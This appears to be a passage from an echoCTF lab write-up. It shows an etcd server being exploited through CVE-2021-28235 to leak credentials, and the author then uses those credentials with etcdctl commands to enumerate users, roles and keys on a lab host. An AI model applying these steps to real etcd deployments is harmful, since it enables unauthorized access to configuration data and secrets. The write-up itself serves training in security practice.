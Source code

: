
After a search for vulnerabilities associated with `etcd` running on `2379` we can find that this version of `etcd` is vulnerable to `CVE-2021-28235`.

PoC for this vulnerability can be found here: https://github.com/lucyxss/etcd-3.4.10-test/blob/master/temp4cj.png

Testing to see if our instance is also vulnerable.

![Vuln PoC](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/debug_poc_2379.png)

## Exploitation
Using this vulnerability we are able to view leaked credentials for authenticating to `etcd`.

![Leaked Creds](https://raw.githubusercontent.com/theMcSam/echoCTF-writeups/refs/heads/main/etceterad/images/leaked_creds_from_etctd_vuln.png)

To be able to hack `etcd` we must first understand what it is. `etcd` is a distributed key-value store used to store configuration data and coordinate distributed systems. Effectively, `etcd` acts as a database where clients can query data from the server in a distributed environment.
<br>
We can interract with `etcd` buy using the client software called `etcdctl`.
First of all we will have to install the tool if it's not available on current attack machine.
<br>
After installing it we can now interact with the `etcd`.
We first send a query to get information about out current user.

```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 user get nodejs
User: nodejs
Roles: etsctf
```

From the above query we can see that we have the role `etsctf`. Now we try to see what permissions are available for this role and what we can achieve with it.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 role get etsctf

Role etsctf
KV Read:
	[/home/, /home0) (prefix /home/)
	[/nodejs/, /nodejs0) (prefix /nodejs/)
	ETSCTF
KV Write:
	[/home/, /home0) (prefix /home/)
	[/nodejs/, /nodejs0) (prefix /nodejs/)
```

From the above results users with the role `etsctf` can read and write to the `/home` and `/nodejs` prefixes.

We will attempt to view the keys under the `/nodejs` prefix.
```
mcsam@0x32:~/$ ETCDCTL_API=3 etcdctl --user nodejs:sjedon --endpoints http://10.0.160.122:2379 get --prefix "/nodejs/" --keys-only
/nodejs/index
```
